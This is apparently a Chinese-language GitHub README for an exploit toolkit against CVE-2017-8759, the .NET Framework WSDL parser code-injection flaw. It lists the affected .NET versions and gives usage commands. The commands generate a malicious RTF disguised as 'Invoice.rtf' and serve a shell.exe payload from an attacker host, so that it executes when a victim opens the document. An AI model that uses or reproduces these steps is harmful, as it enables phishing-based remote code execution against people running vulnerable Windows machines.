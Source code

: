 # CVE-2017-8759

## 说明

FireEye 最近检测到一个恶意的Microsoft Office RTF文档，利用CVE-2017-8759 WSDL解析器代码注入PrintClientProxy方法中的WSDL解析器模块中存在代码注入漏洞。如果提供的包含CRLF序列的数据，则IsValidUrl不会执行正确的验证。这就造成了攻击者注入和执行任意代码。

## 影响范围

* Microsoft .NET Framework 4.6.2
* Microsoft .NET Framework 4.6.1
* Microsoft .NET Framework 3.5.1
* Microsoft .NET Framework 4.7
* Microsoft .NET Framework 4.6
* Microsoft .NET Framework 4.5.2
* Microsoft .NET Framework 3.5
* Microsoft .NET Framework 2.0 SP2

## 用法

创建恶意文档

```
# python cve-2017-8759_toolkit.py -M gen -w Invoice.rtf -u http://192.168.154.200/logo.txt
Generating normal RTF payload.
Generated Invoice.rtf successfully
```

启动HTTP服务，监听指定端口

```
python cve-2017-8759_toolkit.py -M exp -e http://192.168.154.200/shell.exe -l /shm/shell.exe
```

当受害者打开 Invoice.rtf 即可执行 shell.exe，注意文档不能放在UNC路径

## 参考文章

* [Exploit toolkit CVE-2017-8759 - v1.0](https://github.com/bhdresh/CVE-2017-8759)
* [.NET框架0Day漏洞CVE-2017-8759复现过程](https://fuping.site/2017/09/14/CVE-2017-8759-Remote-Code-Execution-Vulnerability-Replication/)

